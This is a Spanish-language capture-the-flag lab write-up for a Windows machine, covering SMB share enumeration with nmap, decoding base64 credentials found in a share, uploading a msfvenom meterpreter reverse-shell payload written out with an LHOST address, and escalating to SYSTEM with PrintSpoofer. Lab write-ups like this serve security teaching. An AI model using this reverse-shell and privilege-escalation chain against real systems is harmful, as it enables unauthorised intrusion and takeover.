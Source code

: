 # Relevant
Lo primero que haremos es un nmap a la máquina para ver que servicios tiene abierto.
![390c04af0c457d0209cb325df1839744.png](img/390c04af0c457d0209cb325df1839744.png)

Parece que nos ha encontrado una web en el puerto 80 y asñi interensate en el puerto 445 pueder ser un SMB pero no esoty seguro aunque ese puerto se suele utilizar para SMB. 
Mientras hago un escaneo de ese puerto voy a mirar que hay en la página. 
![bcf800ba889e3a63f42e4331c8f1996d.png](img/bcf800ba889e3a63f42e4331c8f1996d.png)

Vamos a realizar un fuzzeo y mientras miramos el 445. Investigando sobre el puerto 445  (puerto de SMB) con nmap he encontrado que nmap tiene distintas funciones con SMB que podremos ejecutar: 
- Con nmap -p445 --script smb-enum-shares 10.10.108.129 enumeramos las carpetas compartidas del smb.
Podemos ver como nos han aparecido akgunas carpetas compartidas. 
![0733c7afc3bdba7cb65e3f3d8ea335ad.png](img/0733c7afc3bdba7cb65e3f3d8ea335ad.png)

- Con nmap -p445 --script smb-os-discovery 10.10.108.129 podemos ver información del SO.

Podemos ver información como SO, nombre del equipo, grupo de trabajo...
![712ae39e0742ffccaeeffce1a5788de3.png](img/712ae39e0742ffccaeeffce1a5788de3.png)

- Con nmap -p445 --script smb-security-mode 10.10.108.129 podemos ver el nivel de seguridad. 

 ![8765d2b1c96cd24cdc9171f9db31587e.png](img/8765d2b1c96cd24cdc9171f9db31587e.png)

 Lo que más podemos destacar de aquí son las carpetas compartidas. Vamos a probar a acceder a ellas con smbclient -L a ver si podemos acceder a alguna. 
 Como vemos nos salen las carpetas que nos aparecieron anteriormente.
 ![802d0005bb7c3d9266d9da5c1b2a0b3d.png](img/802d0005bb7c3d9266d9da5c1b2a0b3d.png)

 Vamos a entrar en ellas a ver si alguna contiene algo. Hemos ido provando en cada carpeta 

 ![5660a21069015966d48b514f55c80973.png](img/5660a21069015966d48b514f55c80973.png)

 Nos habia dejado entrar en IPC pero hacemos ls y no hace nada. Despues hemos entrado en nt4wrksv y al hacer ls nos aparece un fichero password.txt. 

 Al mirar dentro del fichero no nos deje ejecutar cat, por lo que tenemos que llevarnos el fichero a nuestra máquina. 
 ![9a74d681ef0a75356f524a95373b0e7d.png](img/9a74d681ef0a75356f524a95373b0e7d.png)

 Nos aparece lo siguiente, por lo que parece que esta encriptada.

 ![ba792ee1a87f70d4cc5cd36accbcd904.png](img/ba792ee1a87f70d4cc5cd36accbcd904.png)

 Parece por el formato que es base 64 por lo que vamos a desencriptarla:
 ![06a0626375128216ad766984911cb002.png](img/06a0626375128216ad766984911cb002.png)
 
Bob - !P@$$W0rD!123

 ![ca7dce352f74fd0658a036c2ca3a2fd4.png](img/ca7dce352f74fd0658a036c2ca3a2fd4.png)
 
 Bill - Juw4nnaM4n420696969!$$$

 Parecen ser 2 usuarios y sus contraseñas, por lo que no puede servir para después. 

 El escaneo me da el mismo error todo el rato. 
 ![5c5213b70ae7fc0856a55402cd88225a.png](img/5c5213b70ae7fc0856a55402cd88225a.png)

 Investigando y haciendole consultas a chat, me ha dicho que según los datos que le he proporcionado puede haber servicios que el escaneo de nmap que he realizado no ha cogido. Por ello hemos realizado un escaneo de todos los puertos a ver si encontramos algo nuevo. 

 ![68486618044139ba26c86f527b3e3259.png](img/68486618044139ba26c86f527b3e3259.png)

 Nos aparecen unos cuantos puertos más pero nos sale unknown. Vamos a comprobar.
 El puerto 49663 parece una réplica de la pagina del puerto 80. Vamos a fuzzear a ver si encontra
 ![2250f0166a47a9db98c9619aaf06a312.png](img/2250f0166a47a9db98c9619aaf06a312.png)

Este puerto tiene algo que ver con el servidor SMB, debido a que si buscamos a través de los directorios que hemos encontrado anteriormente de SMB encontramos los mismos archivos y rutas :
![26f11151cce0482832507a394edf012d.png](img/26f11151cce0482832507a394edf012d.png)

 ***
 Vamos a intentar acceder al SO, tenemos acceso al SMB por lo que podemos intentar ejecutar de alguna forma un payload para poder acceder al sistema. 
Como vimos en clase con msfvenom podemos general payloads con shell reverse que nos ayuden a acceder a sistemas. Yo voy a utilizar el siguiente: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.21.143.62 LPORT=4321 -e x86/shikata_ga_nai -f exe -o payload.exe`. No definimos x64 debido a que lo coge por defecto. 
![f85eb382d6955f874ec6b5426e855551.png](img/f85eb382d6955f874ec6b5426e855551.png)

Metemos el payload en el SMB y nos ponemos en escucha con netcat. 

![a835fda5c0d4a98af57e9031b4fa3c66.png](img/a835fda5c0d4a98af57e9031b4fa3c66.png)

He probado payload con exe y con asp pero ninguno de los dos me ha funcionado. Buscando vi que había una extensión que era aspx que esa si que me ha funcionado. 
![c59c44608b7a576c228f7a5e57ca646e.png](img/c59c44608b7a576c228f7a5e57ca646e.png)

Para que el payload se ejecute tendremos que ejecutarlo de alguna forma o interactuar con el. Le haremos un curl siguiento la URL 

![b8695950251cba2bec49cc82078ab1a2.png](img/b8695950251cba2bec49cc82078ab1a2.png)

Y en el netcat se nos abre la cmd. Ya estamos dentro del sistema. 

![fc28bf2a9a6f345491a04c868a06d4e7.png](img/fc28bf2a9a6f345491a04c868a06d4e7.png)

Lo primero será encontrar la flag del usuario. Vemos que hay un usuario llamado Bob. 
![1172c465f51966204d6362d06ec45b2e.png](img/1172c465f51966204d6362d06ec45b2e.png)

Entramos en la carpeta y solo tiene el escritorio
![54855eb5ffa58a0929fafc7b687a40e0.png](img/54855eb5ffa58a0929fafc7b687a40e0.png)

Vamos a ver que hay dentro y encontramso un archivo user.txt
![a39255f831e2aeaf4ab4f1425c215804.png](img/a39255f831e2aeaf4ab4f1425c215804.png)

Comprobaremos el contenido de user.txt y encontramos la flag del usuario. 
![ee6f9ceba957732e0d4a0313ad341f96.png](img/ee6f9ceba957732e0d4a0313ad341f96.png)

*** 
Ahora queremos escalar privilegios, tras hacerle consultas a perplexity buscando posibles exploit con la versión del SO nos dió esta solución. 
![02c520695d3bd879a6f9bbb280eff85b.png](img/02c520695d3bd879a6f9bbb280eff85b.png)

Esto lo que nos permite es ver los permisos que tenemos en el sistema y depende de que tengamos habilitado podemos usar algún exploit.

![1a4d180de132e4bc3bc99706f383a6ba.png](img/1a4d180de132e4bc3bc99706f383a6ba.png)

Una vez le he dado la salida nos aconseja que el privilegio para hacer la escala de privilegios es SeImpersonatePrivilege, ya que este permite a un proceso impersonar a un cliente después de la autenticación, lo que puede ser explotado para obtener privilegios de sistema.

Nos ha brindado 3 exploit que podemos utilizar:
- PrintSpoofer
- JuicyPotato
- RoguePotato

Mirando como se configuran el primero es el más sencillo de ejecutar por lo que es el que vamos a utilizar. 

Descargaremos el exploit de este repositorio
![97f75e253ab7b194400d67bb53d064bb.png](img/97f75e253ab7b194400d67bb53d064bb.png)
![ed7a56b14e6f3a220759717ef28e0f29.png](img/ed7a56b14e6f3a220759717ef28e0f29.png)

Abrimos un servidor con python

![2961954dc9aba6df5df320e1b614f6d1.png](img/2961954dc9aba6df5df320e1b614f6d1.png)

Y con este comando que nos ha dado perplexity descargaremos el .exe de nuestro servidor. 
![c6008201e3c9dcf385d65a0b5b3a8410.png](img/c6008201e3c9dcf385d65a0b5b3a8410.png)

Lo ejecutamos con el nombre del fichero y nuestra IP
![0c2758a56acee76d4f39a5933845526c.png](img/0c2758a56acee76d4f39a5933845526c.png)

Y vemos si se ha descargado. Comprobamos que si se ha descargado. (el de 64 es un archivo vacio sin nada)
![fc1564faad78a1fca66049476d109fd9.png](img/fc1564faad78a1fca66049476d109fd9.png)

Nos dicen que para ejecutar el exploit hay que poner el siguiente comando:
![00ac69136908d69347c7560763c1dd4e.png](img/00ac69136908d69347c7560763c1dd4e.png)

Lo ejecutamos y verificamos que se nos ha escalado privilegios
![8eefa3d48ab324191aaf6b5e6b3d2c06.png](img/8eefa3d48ab324191aaf6b5e6b3d2c06.png)

Efectivamente somos el sistema y tenemos permisos de administrador
![acd3d2a635c5b4066444bfb94862a179.png](img/acd3d2a635c5b4066444bfb94862a179.png)

Vamos a buscar la flag en el directorio del administrador. Dentro del escritorio del root encontramos el archivo root.txt
![5771c53c32fe7d79bbdb50bc181bd687.png](img/5771c53c32fe7d79bbdb50bc181bd687.png)

Vemos su conteniod y encontramos la flag.

![0a225de4dad6c652682dc2059d846ef1.png](img/0a225de4dad6c652682dc2059d846ef1.png)


